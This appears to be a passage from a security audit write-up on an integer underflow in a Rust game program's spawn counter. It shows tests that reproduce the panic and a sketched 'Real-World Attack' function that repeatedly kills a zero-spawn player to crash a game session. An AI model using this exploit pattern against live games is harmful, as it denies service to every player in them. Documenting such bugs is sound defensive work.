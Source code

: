 ```rust
        // This will panic due to underflow: 0 - 1
        let result = game_session.add_kill(
            1, // killer team
            killer,
            0, // victim team
            victim
        );

        // Code never reaches here due to panic
        assert!(result.is_err());
    }

    #[test]
    fn test_normal_kill_flow() {
        let mut game_session = create_test_game_session();

        // Player starts with 10 spawns
        assert_eq!(game_session.team_a.player_spawns[0], 10);

        // Normal kill reduces spawns by 1
        let result = game_session.add_kill(1, killer, 0, victim);
        assert!(result.is_ok());
        assert_eq!(game_session.team_a.player_spawns[0], 9);

        // Keep killing until 1 spawn left
        for _ in 0..8 {
            game_session.add_kill(1, killer, 0, victim).unwrap();
        }
        assert_eq!(game_session.team_a.player_spawns[0], 1);

        // Final kill should work
        game_session.add_kill(1, killer, 0, victim).unwrap();
        assert_eq!(game_session.team_a.player_spawns[0], 0);

        // But one more kill causes PANIC!
        // game_session.add_kill(1, killer, 0, victim); // Would panic
    }
}
```

### Real-World Attack
```rust
// Exploit script to crash any active game
pub fn crash_game_via_underflow(
    game_session_id: String,
    target_player: Pubkey
) -> Result<()> {
    // 1. Identify a player with low spawns
    // 2. Keep killing them until spawns = 0
    // 3. Kill them one more time to trigger panic
    // 4. Game crashes, all players affected

    record_kill(
        create_kill_context(),
        game_session_id,
        attacker_team,
        attacker_pubkey,
        victim_team,
        target_player // Player with 0 spawns
    )?; // This will panic and crash the game

    Ok(())
}
```